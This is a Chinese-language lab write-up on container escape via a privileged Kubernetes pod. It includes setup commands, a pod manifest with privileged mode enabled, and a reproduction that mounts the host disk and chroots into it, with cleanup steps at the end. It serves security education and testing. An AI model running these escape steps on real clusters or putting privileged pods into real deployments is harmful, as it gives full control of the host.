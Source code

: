 # Kubernetes privileged 特权容器导致容器逃逸

## 漏洞描述

最初，容器特权模式的出现是为了帮助开发者实现 Docker-in-Docker 特性。然而，在特权模式下运行不完全受控容器将给宿主机带来极大安全威胁。

[官方文档](1. [https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities)) 对特权模式的描述如下：

> 当操作者执行 `docker run --privileged` 时，Docker 将允许容器访问宿主机上的所有设备，同时修改 AppArmor 或 SELinux 的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

参考链接：

- https://www.docker.com/blog/docker-can-now-run-within-docker/
- https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
- https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f privileged-container.yaml
```

或直接通过 metarget 启动漏洞环境：

```
./metarget cnv install privileged-container
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `privileged-container` 的包含特权容器的 pod：

```
kubectl get pods -n metarget
-----
NAME                   READY   STATUS    RESTARTS   AGE
privileged-container   1/1     Running   0          5s
```

![](images/Kubernetes%20privileged%20特权容器导致容器逃逸/image-20250421192020443.png)

## 漏洞复现

特权模式下容器能够看到宿主机硬盘设备，可以通过挂载宿主机硬盘的方式实现文件系统层面逃逸。

示例如下（硬盘路径需要根据实际环境确定，这里为 `/dev/sda1`）：

```
kubectl exec -n metarget -it privileged-container -- /bin/bash
-----
root@privileged-container:/# fdisk -l | grep /dev/sda1
/dev/sda1  *     2048 209713151 209711104  100G 83 Linux
root@privileged-container:/# mkdir /host
root@privileged-container:/# mount /dev/sda1 /host
root@privileged-container:/# chroot /host
# cat /etc/hostname
ubuntu
```

![](images/Kubernetes%20privileged%20特权容器导致容器逃逸/image-20250421191351590.png)

## 环境复原

```
kubectl delete -f privileged-container.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[privileged-container.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/privileged-container.yaml)

```
apiVersion: v1
kind: Pod
metadata:
  name: privileged-container
  namespace: metarget
spec:
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
